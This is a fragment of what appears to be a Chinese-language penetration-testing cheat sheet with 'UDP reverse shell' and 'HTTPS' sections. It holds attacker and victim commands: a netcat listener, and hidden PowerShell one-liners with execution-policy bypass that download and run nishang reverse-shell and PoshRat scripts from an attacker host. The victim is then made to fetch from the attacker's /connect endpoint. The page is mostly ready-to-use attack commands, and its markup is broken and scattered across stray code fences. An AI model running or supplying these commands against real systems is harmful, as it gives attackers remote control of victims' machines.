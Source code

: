 




```

##### **UDP反向shell**

```


### 

```
`攻击机：``>nc -lvup 12138``靶机：``>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 12138"`
```






```

##### **HTTPS**

```


### 

```
`攻击机：``>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PoshRatHttps.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.0.98 -Port 8080 -SSLPort 443"  IP地址是本机IP`
```






```


```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```


```
靶机：  

```

```


### 

```
>powershell -w hidden -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.98:8080/connect')
```
